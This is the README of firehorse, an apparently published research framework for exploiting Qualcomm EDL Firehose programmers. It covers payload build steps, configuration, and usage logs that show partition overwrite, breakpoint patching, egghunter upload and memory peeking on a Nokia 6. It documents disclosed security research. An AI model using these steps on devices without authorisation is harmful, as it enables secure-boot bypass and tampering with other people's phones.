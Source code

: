 # firehorse 
By Roee Hay ([@roeehay](https://twitter.com/roeehay)) & Noam Hadad, Aleph Reseserch, HCL Technologies 

Research & Exploitation framework for Qualcomm EDL Firehose programmers.

Blog posts:

1. [Exploiting Qualcomm EDL Programmers (1): Gaining Access & PBL Internals](https://alephsecurity.com/2018/01/22/qualcomm-edl-1/)
2. [Exploiting Qualcomm EDL Programmers (2): Storage-based Attacks & Rooting](https://alephsecurity.com/2018/01/22/qualcomm-edl-2/)
3. [Exploiting Qualcomm EDL Programmers (3): Memory-based Attacks & PBL Extraction](https://alephsecurity.com/2018/01/22/qualcomm-edl-3/)
4. [Exploiting Qualcomm EDL Programmers (4): Runtime Debugger](https://alephsecurity.com/2018/01/22/qualcomm-edl-4/)
5. [Exploiting Qualcomm EDL Programmers (5): Breaking Nokia 6's Secure Boot](https://alephsecurity.com/2018/01/22/qualcomm-edl-5/) 


## Usage 

### Prerequisites
To use this tool you'll need:
   1. Qualcomm Product Support Tools (QPST - we used version 2.7.437 running on a windows 10 machine)
   2. A Cross compiler to build the payload for the devices (we used [arm-eabi-4.6](https://android.googlesource.com/platform/prebuilts/gcc/linux-x86/arm/arm-eabi-4.6/) toolchain for aarch32 and [aarch64-linux-android-4.8](https://android.googlesource.com/platform/prebuilts/gcc/linux-x86/aarch64/aarch64-linux-android-4.8/) toolchain for aarch64, both running on ubuntu 16.04 machine). <b>On debian</b>: apt install gcc-aarch64-linux-gnu gcc-arm-none-eabi.
   3. Acquire the relevant programmers and copy them to the host/target/device directory


### Building the payloads
First, edit the Makefile in the device directory - set the device variable to whatever device you want (nokia6, angler, ugglite, mido and cheeseburger are currently supported).
<br/>
<br/>
Next, set the CROSS_COMPILE_32 and CROSS_COMPILE_64 enviroment vars as follows:
```
export CROSS_COMPILE_32=<path-to-arm-eabi-4.6-toolchain>/bin/arm-eabi-
export CROSS_COMPILE_64=<path-to-aarch64-linux-android-4.8-toolchain>/bin/aarch64-linux-android-
```
Then call make and the payload for your specific device will be built

### Configure the tool 
Before we start, we need to configure some stuff, edit the constants.py file in the host directory:
  1. set COM to whatever com port the device is connnected to
  2. set FH_LOADER with a path to the fh_loader.exe  in the QPST\bin directory
  3. set SAHARA_SERVER with a path to the QSaharaServer.exe  in the QPST\bin directory

```python
COM = "COM17"
FH_LOADER = r"C:\Program Files (x86)\Qualcomm\QPST437\bin\fh_loader.exe"
SAHARA_SERVER = r"C:\Program Files (x86)\Qualcomm\QPST437\bin\QSaharaServer.exe" 
```


### Usage examples
```
c:\firehorse\host>python firehorse.py -s -c COM17 -t nokia6 target magic
INFO: sending programmer...
INFO: Overwriting partition logdump with ../tmp\nokia6-ramdisk-modified.cpio.gz...
INFO: applying patches and breakpoints...
INFO: installing bp for 0010527c
INFO: installing bp for 00104130
[...]
INFO: creating pagecopy...
INFO: pages: set([272, 256, 259, 260, 261])
INFO: uploading firehorse data...
INFO: uploading egghunter to 080af000
INFO: 080af000
INFO: i = 0, dst = 080d0000, cksum = d1fe325f
INFO: i = 1, dst = 080d0320, cksum = 3c092224
INFO: got all parts in 1 tries
INFO: uploading firehorse...
INFO: i = 0, dst = 080b0000, cksum = f5234b61
INFO: i = 1, dst = 080b0320, cksum = 641cb436
[...]
INFO: got all parts in 2 tries
INFO: initializing firehorse...
INFO: calling pbl patcher...
```


```
c:\firehorse\host>python firehorse.py -c COM17 -t nokia6 fw hello

c:\firehorse\host>python firehorse.py -c COM17 -t nokia6 fw peek 0x100000 0x10
INFO: 00100000  22 00 00 ea 70 00 00 ea 74 00 00 ea 78 00 00 ea   "...p...t...x...
```
